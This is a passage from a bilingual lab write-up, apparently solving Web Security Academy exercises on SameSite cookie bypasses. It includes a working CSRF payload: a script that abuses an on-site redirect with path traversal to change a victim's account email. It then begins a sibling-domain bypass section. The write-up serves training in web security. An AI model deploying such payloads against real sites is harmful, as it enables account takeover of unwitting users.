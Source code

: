 > Revisando la petición al crear un nuevo post, vemos que se ejecuta un script el cual nos redirige al post que le indiquemos con el parámetro 'postId'.

![](/img2/Pasted%20image%2020250801232015.png)

- Injection

```html
<script>
    location="https://0ac5005f03b2f8be81a1615600a3006c.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=csrf%40csrf.com%26submit=1"
</script>
```

## Bypass de SameSite Strict con dominio hermano || SameSite Strict bypass via sibling domain

![](/img2/Pasted%20image%2020250802125027.png)

> Vemos que en la cabecera CORS se está mostrando un nuevo subdominio.
